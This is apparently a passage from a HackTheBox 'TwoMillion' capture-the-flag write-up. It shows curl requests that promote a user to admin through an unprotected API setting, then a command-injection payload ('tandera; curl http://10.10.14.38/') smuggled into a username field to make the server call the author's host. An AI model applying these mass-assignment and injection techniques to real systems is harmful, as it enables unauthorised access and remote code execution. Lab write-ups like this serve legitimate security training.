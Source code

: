 ```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json"  -d '{"email":"tandera@gmail.com", "is_admin":1}'
{"id":25,"username":"tandera","is_admin":1}
```

```
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte"
{"message":true}
```

And now? How can we gain access the server?

## Exploitation

As a admin user, now we can `POST` on the `/vpn/generate` route:

```
curl "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d ''
{"status":"danger","message":"Missing parameter: username"}
```

Setting the username to `tandera`, we receive the `ovpn` file: 

```
curl "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d '{"username":"tandera"}'
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
// ...
```

Here comes the catch: in the `.ovpn` file, there's certificates and a private key to that user on the VPN server. There's multiple ways to generate this certificates/keys, and one of them is through `openssl`. Our gold guess is that the server, in the backend, is calling the `openssl` binary through a `system` or a `shell_exec` and, if the developer wasn't careful enough, we can inject code directly into the command to generate our `.ovpn` file. 

To test this hypothesis, let's make the box request our local server.

1. (Lights...) Creating a local server:

```shell
sudo php -S 0.0.0.0:80
```

2. (Camera...) Creating the payload for the request:

```json
{"username": "tandera; curl http://10.10.14.38/"}
```

3. (Action!) Requesting the server:[^4]

```shell
curl "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d '{"username":"tandera; curl http://10.10.14.38/"}'
```


[^1]: It's possible to bruteforce directories too, but all links are available through crawling and javascript analysis. If you want to **speed things up**, use the `-jc/-js-crawl` option in katana. 
[^2]: The responses are always equal to the "Invalid Code" response, even with Boolean Based techniques. 
[^3]: The `ovpn` file contains a subdomain to connect: `edge-eu-free-1.2million.htb`, on port 1337. This port is closed. 
[^4]: The `10.10.14.38` is my local address of the real HackTheBox VPN (tun0). 
[^5]: To use the web-server in your local machine, make sure to create the database and tables of the application.